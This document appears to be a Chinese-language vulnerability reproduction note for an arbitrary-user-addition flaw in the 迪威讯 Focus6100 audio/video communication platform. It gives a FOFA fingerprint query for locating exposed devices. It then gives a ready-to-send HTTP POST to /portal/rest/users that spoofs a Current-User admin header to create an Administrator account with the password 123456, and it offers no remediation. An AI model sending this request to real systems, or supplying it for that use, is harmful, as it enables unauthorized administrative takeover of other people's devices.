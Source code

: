 # 迪威讯Focus6100音视频通讯平台存在任意用户添加漏洞

# 一、漏洞简介
迪威讯Focus6100音视频通讯平台存在任意用户添加漏洞

# 二、影响版本
+ 迪威讯Focus6100音视频通讯平台

# 三、资产测绘
+ fofa`web.icon=="bbc933535a6bfe478afb1fd0b3c470bf"`
+ 特征

![1727236496776-a86037c1-f827-4701-8df6-d3ff921c09b3.png](./img/0oTztu8wtNxM6fDr/1727236496776-a86037c1-f827-4701-8df6-d3ff921c09b3-858583.png)

# 四 、漏洞复现
```java
POST /portal/rest/users HTTP/1.1
Host: 
Content-Length: 85
Accept: application/json, text/plain, */*
Current-User: admin|Administrator
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Connection: close

{"role":"Administrator","name":"test1","password":"e10adc3949ba59abbe56e057f20f883e"}
```

![1727236694945-4d6de57a-5d7b-466c-9196-174780417908.png](./img/0oTztu8wtNxM6fDr/1727236694945-4d6de57a-5d7b-466c-9196-174780417908-597623.png)

test1/123456

![1727236724047-c0a67d6a-2398-4693-99a3-c094b0c6125c.png](./img/0oTztu8wtNxM6fDr/1727236724047-c0a67d6a-2398-4693-99a3-c094b0c6125c-790238.png)



> 更新: 2024-10-22 09:36:09  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/psg86y8exbitmfsk>